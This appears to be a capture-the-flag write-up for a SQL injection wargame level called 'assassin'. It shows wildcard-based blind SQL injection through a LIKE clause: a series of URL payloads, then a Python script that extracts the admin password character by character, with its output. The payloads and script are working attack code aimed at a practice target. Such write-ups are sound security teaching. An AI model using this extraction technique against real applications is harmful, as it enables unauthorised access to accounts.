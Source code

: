 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 15
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/a4d30de7-86ed-4978-8c4c-38f8827700a5)

We are provided with theSQL query:

```sql
SELECT id FROM prob_assassin WHERE pw LIKE '{$_GET[pw]}'
```

## Filter

The code filters out the following characters:

- Single quotes

## Blind SQL Injection

We have to use wildcards to leak out the password.

#### Wildcard

![Pasted image 20240621082037](https://github.com/Kunull/Write-ups/assets/110326359/7c57a891-1577-4c2d-940d-556cac31d631)

More specifically, we have to use the (`%`) wildcard.

If we provide the following URI parameter:

```
?pw=%
```

The resultant query becomes:

```sql
SELECT id FROM prob_assassin WHERE pw LIKE '%'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/4f441821-33d7-40d8-ac70-76dea5327282)

Since the `Hello guest` message is printed, we know that the `guest` user has a lower index than the `admin` user.

Let's provide the following URI:

```
?pw=0%
```

The resultant query becomes:

```sql
SELECT id FROM prob_assassin WHERE pw LIKE '0%'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/111c6b2d-5420-4ed9-adbd-2fd4e989cc44)

The first character of none of the passwords is `0`.

We can try other characters moving up to the following:

```
?pw=9%
```

The resultant query becomes:

```sql
SELECT id FROM prob_assassin WHERE pw LIKE '9%'
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/949f9c1a-f635-4af9-a930-8a212bf4ce66)

So the first character of both the `admin` and `guest` password is common, being `9`.

We can keep on following this method until the `Hello admin` message is included in the response. That tells us that the password is exclusive to the `admin` only.

```
902%
```

### Script

We can automate the entire process using a script.

```python title="assassin_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'cih6lj5v0dkr263t42fnn0d7br'}
url = 'https://los.rubiya.kr/chall/assassin_14a1fd552c61c60f034879e5d4171373.php'

guest_password = ''
admin_password = ''
searchspace = string.digits + string.ascii_letters
print()

for index in range(1, 9):
  for char in searchspace:
    payload = f"{guest_password}{char}"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f'{url}?pw={encoded_payload}%'

    response = requests.get(full_url, cookies=cookies)

    if ("Hello admin" in response.text):
      admin_password = guest_password + char 
      break
    elif ("Hello guest" in response.text):
      guest_password += char
      print(f'[x] Common character: {char}')
      break

print()
print(f'[x] Distinct character: {char}')
print(f'[!] Extracted password: {admin_password}%')
print(f'[!] Final payload: ?pw={admin_password}%')
```

```
$ python .\assassin_script.py

[x] Common character: 9
[x] Common character: 0

[x] Distinct character: 2  
[!] Extracted password: 902%
[!] Final payload: ?pw=902% 
```

If we provide the following URI:

```
?pw=902%
```

The resultant query becomes:

```sql
SELECT id FROM prob_assassin WHERE pw LIKE '902%'
```

![0](https://github.com/Kunull/Write-ups/assets/110326359/72b89d8f-5346-492b-a89d-52247da864c1)
